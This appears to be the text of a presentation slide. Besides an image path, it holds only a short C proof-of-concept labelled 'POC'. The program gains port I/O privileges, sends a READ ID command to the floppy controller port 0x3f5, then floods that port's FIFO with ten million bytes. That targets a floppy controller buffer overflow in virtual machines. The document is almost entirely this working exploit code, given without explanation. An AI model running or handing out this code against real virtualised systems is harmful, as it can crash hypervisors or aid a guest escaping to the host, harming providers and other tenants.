

POC
	#include <sys/io.h>
	#define FIFO 0x3f5
	int main() {
	int i;
	iopl(3);
	outb(0x8e,0x3f5); /* READ ID */
	for (i=0;i<10000000;i++)
	outb(0x42,0x3f5); /* push */
	}